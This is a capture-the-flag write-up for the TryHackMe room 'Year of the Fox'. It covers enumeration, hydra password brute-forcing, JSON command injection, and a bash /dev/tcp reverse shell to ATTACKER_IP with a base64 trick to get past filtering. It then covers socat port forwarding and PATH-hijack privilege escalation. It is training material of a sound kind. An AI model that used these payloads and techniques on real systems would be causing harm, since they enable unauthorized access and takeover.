

|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--| :-----------: |--| :--------:|--|
|  |    Hard    |  | 10.10.117.195 |  | [Year of the Fox](https://tryhackme.com/room/yotf) |  |

---

### [ What is the web flag? ]

As usual, we start off with a full nmap scan on the target machine:

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.117.195
```

**Results:**

```
PORT    STATE SERVICE     REASON         VERSION
80/tcp  open  http        syn-ack ttl 61 Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX
```

From the scan results, we know that 3 ports are open: **80 (HTTP)**, **139 & 445 (Samba)**

Let's first visit the HTTP website:


Looks like we need to authenticate ourselves.

I tried common default credentials like `admin:admin`, but they did not work. The prompt tells us to "guess the password", which leads me to believe that we'll have to run a password dictionary attack. However, without a valid username, we can't really do much, so let's move on for now.

Next, let's enumerate the SMB server.

I first used `smbclient` to list out all of the shares on the server:

```
smbclient -L 10.10.117.195
```


There is an interesting share called **yotf**. It belongs to the user **fox**, so that could be a potential username.

I tried to log into the **yotf** share anonymously but unfortunately, it looks like we need an account here as well:


Next, I used `enum4linux` to conduct a more thorough scan on the SMB server:

```
enum4linux 10.10.117.195
```

Apart from the shares that we already enumerated, `enum4linux` managed to find 2 users on the server:


We now have 2 potential usernames:

> fox, rascal

Let's go ahead and run a password dictionary attack on the HTTP website with these usernames. We'll use `hydra` to do so:

```
hydra -l fox -P /usr/share/wordlists/rockyou.txt -t 64 -f 10.10.117.195 http-get /
```

While the username **fox** yielded nothing of interest, I managed to find a password with **rascal**:


*(Note that the password changes between every instance of the room)*

rascal's password is:

> marines

With that, let's log into the HTTP website:


We are brought to a search engine of sorts.

I tried searching for a random string "test" and the website returned a "NO FILE RETURNED" text:


Let's pass this search request to Burpsuite Repeater so that we can analyze it more easily!

On Burpsuite, the first thing I noticed was that our input was being passed to the web server via a JSON object, with the key being 'target'. I tried providing an empty input:


3 files are returned to us: **creds2.txt**, **fox.txt** and **important-data.txt**

Next, I did some research online on whether it was possible to achieve **command injection** through JSON objects, eventually coming across this [website](https://www.comparitech.com/net-admin/json-injection-guide/).

---

*While the technique used in the aforementioned website is not exactly the same as in this room, the overall logic is quite similar!*

---

Let's try sending this payload:

```
{"target":"\";pwd \""}
```


Nice, the `pwd` command was run, proving that command injection is possible!

With that, let's try to open a reverse shell back to our machine. I'll be using the following payload:

```
{"target":"\";bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1 \""}
```

With my netcat listener up and running, I sent the following request:


Hmmmm, looks like there is some server-side filtering going on. We can easily bypass this by encoding our command with base64, then decoding it on the server-side.

After encoding our command, we get back the following encoded string:


Next, we send in the following payload:

```
{"target":"\";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC40LjYuMjA1LzQ0NDQgMD4mMQo= | base64 -d | bash; \""}
```

The server will thus decode our reverse shell command, then pipe it over to bash to be run.

The reverse shell was then successfully opened:


We're in! :smiley:

We can find the **web flag** in /var/www:


---

### [ What is the user flag? ]

Moving over to the /home directory, we can see the 2 users that we enumerated earlier on:


Unfortunately, we do not have the permissions to navigate into their directories.

Next, I dug around the machine to see if I could find any interesting files or directories. Moving back to /var/www/files, I found the 3 files that were returned to us on the website earlier:


However, only **creds2.txt** contained data:


The data seems to have been base-64 encoded. When I decoded them, I got non-human readable text that I couldn't really use. Let's move on for now.

I decided to use [LinPeas](https://github.com/carlospolop/PEASS-ng) to speed up the enumeration process. After running the scan, I noticed something interesting:


It seems that the machine is listening for SSH connections on **localhost**. Hence, we can try to do some basic port forwarding to expose this SSH service to our machine!

To do so, we'll use `socat`. I first transferred the `socat` binary from my local machine to the target. Next, I ran the following command:

```   
./socat TCP-LISTEN:8888,fork TCP:127.0.0.1:22
```

This will open up port 8888 on the target machine and redirect all traffic to port 22 on localhost:


Let's now see if we can connect to the SSH server from our local machine:


Great, we can access the SSH server!

We can then try to brute-force the passwords for either the **fox** or **rascal** accounts. We'll use `hydra` to do so:

```
hydra -l fox -P /usr/share/wordlists/rockyou.txt -t 64 -f -s 8888 10.10.117.195 ssh
```


After a few seconds, `hydra` cracks the password to fox's account:

> linkinpark

*(This password also changes between each instance of the room)*

We can now ssh into the server as fox:


We then obtain the **user flag** from fox's home directory:


---

### [ What is the root flag? ]

Let's now do some privilege escalation.

The first thing I did was to look at fox's **sudo privileges**:


It appears that we can run `shutdown` as root. I looked on GTFOBins, but was unable to find any existing way we can exploit this binary.

Let's take a closer look at `shutdown`:


Unfortunately, we do not have write permissions for the binary. I downloaded the binary onto my local machine so that I could reverse-engineer it using [Binary Ninja](https://cloud.binary.ninja/).

Once the reverse engineering was done, I took a look at the **main()** function:


It seems that `shutdown` simply calls the `poweroff` binary. This will then cause the system to power down.

What's important to note is that `poweroff` is not called with its absolute path. This means that we can do some path manipulation to have our own binary called instead.

We first create a new binary called `poweroff` in /tmp, which will spawn a shell:

```
echo '/bin/bash' > /tmp/poweroff
chmod +x /tmp/poweroff
```

Next, we add /tmp to our PATH:

```
export PATH=/tmp:$PATH
```

We can verify that /tmp has been successfully added:


Now all we have to do is set up our netcat listener and run `sudo /usr/sbin/shutdown`:


And we're now root!

Unfortunately, the root.txt file in /root did not contain the root flag:


Looking around the machine, I found a hidden file called **'.did-you-think-I-was-useless.root'** in rascal's home directory:


This file contained the **root flag**!

